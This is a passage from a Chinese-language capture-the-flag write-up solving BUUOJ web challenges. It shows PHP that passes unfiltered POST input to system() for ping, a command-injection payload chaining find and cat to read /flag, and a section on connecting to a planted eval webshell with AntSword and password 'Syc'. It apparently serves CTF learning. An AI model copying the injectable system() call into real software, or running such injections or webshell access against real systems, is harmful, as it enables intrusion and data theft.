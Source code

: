 ```php
    <pre>
        <?php
        if (isset($_POST['target'])) {
            system("ping -c 3 " . $_POST['target']);
        }
        ?>
	</pre>
  </body>
</html>

```

显然，网页对于用户的输入没有做出任何过滤。于是我们用find工具找出flag的位置(`/flag`)并且直接显示即可。

```sh
127.0.0.1;find / -name flag*
/*
....
...
/flag
*/
cat /flag
```

ps：这是第一个我没看任何wp自己写出的web题😭，不容易啊

## 0x10 [极客大挑战 2019]Knife

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Knife)

网页标题直接告诉你这是白给的shell，再看到eval一句话木马，就明白这是webshell。

![image-20210304110445313](image-20210304110445313.png "image-20210304110445313")

用蚁剑直接输入网页地址和密码`Syc`尝试连接，虽然终端里`find / -name flag`没有找到结果，但是在图形界面里发现根目录下存在flag文件，直接白给。不过奇怪的是为什么命令行find没有找到？
